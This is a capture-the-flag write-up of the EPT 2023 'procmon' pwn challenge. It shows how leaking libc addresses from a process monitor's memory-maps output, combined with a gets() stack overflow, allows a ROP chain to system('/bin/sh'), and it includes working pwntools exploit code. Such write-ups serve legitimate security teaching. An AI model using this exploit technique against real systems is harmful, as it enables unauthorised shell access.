





# procmon
Author: `nordbo`

Category: pwn

[Original writeup](https://github.com/joleeee/writeups/tree/main/writeups/2023-ept/procmon)



> Hack the process monitor.

We get a binary, and a host to connect to.

## Initial recon

Im running it in docker so there isn't hundreds of processes.

We can figure out which port it's running on by checking the `ynetd` help:



And then you just do `docker run -p 1024:1024 ept`.

Just running the program (yolo), we see it's a pretty basic program.

```
$ nc localhost 1024

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice: 1
USER       PID   COMMAND                                                     
ept        1     /bin/sh                                                     
ept        7     ./ynetd                                                     
ept        70    sh                                                          
ept        71    ./process_monitor                                           

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice: 2
Enter the PID of the process: 1

Details for PID 1:
Name:   sh
State:  S (sleeping)
Uid:    1000    1000    1000    1000
VmSize:     2888 kB
VmRSS:      1780 kB

Memory Mappings:
559ebdb1c000-559ebdb20000 r--p 00000000 00:19 498                        /usr/bin/dash
559ebdb20000-559ebdb34000 r-xp 00004000 00:19 498                        /usr/bin/dash
559ebdb34000-559ebdb39000 r--p 00018000 00:19 498                        /usr/bin/dash
559ebdb39000-559ebdb3b000 r--p 0001c000 00:19 498                        /usr/bin/dash
559ebdb3b000-559ebdb3c000 rw-p 0001e000 00:19 498                        /usr/bin/dash
559ebdb3c000-559ebdb3e000 rw-p 00000000 00:00 0 
559ebf4d1000-559ebf4f2000 rw-p 00000000 00:00 0                          [heap]
7f33a7200000-7f33a7228000 r--p 00000000 00:19 1215                       /usr/lib/x86_64-linux-gnu/libc.so.6
7f33a7228000-7f33a73bd000 r-xp 00028000 00:19 1215                       /usr/lib/x86_64-linux-gnu/libc.so.6
7f33a73bd000-7f33a7415000 r--p 001bd000 00:19 1215                       /usr/lib/x86_64-linux-gnu/libc.so.6
7f33a7415000-7f33a7419000 r--p 00214000 00:19 1215                       /usr/lib/x86_64-linux-gnu/libc.so.6
7f33a7419000-7f33a741b000 rw-p 00218000 00:19 1215                       /usr/lib/x86_64-linux-gnu/libc.so.6
7f33a741b000-7f33a7428000 rw-p 00000000 00:00 0 
7f33a7519000-7f33a751c000 rw-p 00000000 00:00 0 
7f33a751e000-7f33a7520000 rw-p 00000000 00:00 0 
7f33a7520000-7f33a7522000 r--p 00000000 00:19 1197                       /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f33a7522000-7f33a754c000 r-xp 00002000 00:19 1197                       /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f33a754c000-7f33a7557000 r--p 0002c000 00:19 1197                       /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f33a7558000-7f33a755a000 r--p 00037000 00:19 1197                       /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f33a755a000-7f33a755c000 rw-p 00039000 00:19 1197                       /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffcc0d28000-7ffcc0d49000 rw-p 00000000 00:00 0                          [stack]
7ffcc0df0000-7ffcc0df4000 r--p 00000000 00:00 0                          [vvar]
7ffcc0df4000-7ffcc0df6000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice: 
```

As we see, we can list processes, and then get their memory mappings. This instantly reminds me of `capture the flaaaaaaaaaaaaag` from the LakeCTF Quals, where you could get the first 16 bytes of a 16 byte long filename (possibly -1 for `\0`, idr).



```sh
$ nc chall.polygl0ts.ch 9003
At polygl0ts we are very cool, so you get the first flaaaaaaaaaaaaag character for free : E
Figure out the rest yourself !
You have 4 action(s) left
1 - read from file
2 - read from memory
3 - send feedback
> 1
filename > /proc/self/maps
55ba71036000-55
You have 3 action(s) left
1 - read from file
2 - read from memory
3 - send feedback
> 
```

So my first instinct is we use the ability to read memory mappings to bypass ASLR and ROP to libc or something, which is what i did for that chal, except then it was for the binary itself and not libc, which we want to do now.

## Decompile
We go check out the two functions in `main` and although i type two of the
buffers and set their sizes, we pretty much instantly see there is a `gets`
which does not bounds check.



We can also use `checksec` to make sure we don't need a canary leak (this really should be the first thing you do...):

```bash
$ checksec process_monitor 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Nice!

Let's rop!

## Libc
But first! Where do we rop? Leaking the libc base isn't enough, because we need to also jump to ex. `system`, so we need to know the offset. Since we get the docker container, we should be able to just use that.

```sh
docker build . -t procmon
docker run --rm -it --entrypoint sh procmon
ept@c0debeef:/home/ept

(in another terminal)
docker cp c0debeef:/usr/lib/x86_64-linux-gnu/libc.so.6 libc.so.6
```

Then you just just run `pwninit` which will unstrip it and patch the binary to
use this libc instead.

Unfortunately, I spent a while figuring out why it worked locally on my
machine, as well as in the docker, and it turned out I had not updated my
`ubuntu:22.04` in a while, and since the `Dockerfile` was not pinned to a
specific version, I had a local instance which was different than the remote.

It actually crossed my mind to update it at the beginning, but I decided against
it because I figured the remote might be 1 version behind for instance, cus I
have no clue how often ubuntu updates their images, could be every day for all i
know.

Anyway to fix it, run:

```sh
docker pull ubuntu:22.04
```

## Solve

I'll just comment the interesting parts, but you can read the entire solvescript in [solve.py](./solve/solve.py)

I first write the utillity function to get memory mappings since I'm going to
have to call it multiple times. I also add a default `wait=True` which can be
disabled for when we ROP and i want to get the shell and not wait for data that
will never come.

```py
def details(pid: bytes, wait=True):
    io.sendlineafter(b"Enter your choice", b"2")
    io.sendlineafter(b"Enter the PID", pid)

    if not wait:
        return

    io.recvuntil(b"Memory Mappings:")
    io.recvline()

    data = [line.strip().split() for line in io.recvuntil(b"Menu:").split(b"\n")]

    # make sure we're not reading data before the actual process listings
    data = [line for line in data if len(line) == 6]

    return data
```

First we find the pid of our process:
```py
io.sendlineafter(b"Enter your", b"1.")
lines = io.recvuntil(b"\n\n")
lines = [line.strip().split() for line in lines.split(b"\n")][1:]
possible_pids = []
for line in lines:
    if len(line) != 3:
        continue
    if b'process_monitor' in line[2]:
       print(line)
       possible_pids.append(line[1])

pid = possible_pids[0]
print(f"INFO: PID IS {pid}")
```

Then, we get the libc base:
```py
maps = details(pid)

libc_start = next(m for m in maps if b"libc.so" in m[-1])[0]
print(libc_start)
libc.address = int(libc_start.split(b"-")[0], 16)
print((hex(libc.address)))
print("system", hex(libc.symbols["system"]))
```

Then it's just a matter of ropping!

```py
PAYLOAD = b"A" * 802

PAYLOAD += p64(pop_rdi)
PAYLOAD += p64(next(libc.search(b"/bin/sh\0")))

PAYLOAD += p64(pop_rsi)
PAYLOAD += p64(0)

PAYLOAD += p64(pop_rax)
PAYLOAD += p64(0)

PAYLOAD += p64(ret)


PAYLOAD += p64(libc.symbols["system"])

details(PAYLOAD, wait=False)

io.interactive()
```

You can find the `802` offset from the binja screenshot: `0x322 == 802`:



Aaaand....


We have shell!


Flag: `EPT{overfl0w_in_th3_m0n1t0r}`

## Thoughts
It was a fun task but ngl it sucked a little to see someone else get first blood
while I was trying to debug the wrong libc version, but hey, they probably had
the same issue as well so no worries. Happy little mistakes. We actually had
this exact problem on one of our S2G Playground tasks, so yeah 😅.

All in all a great chal!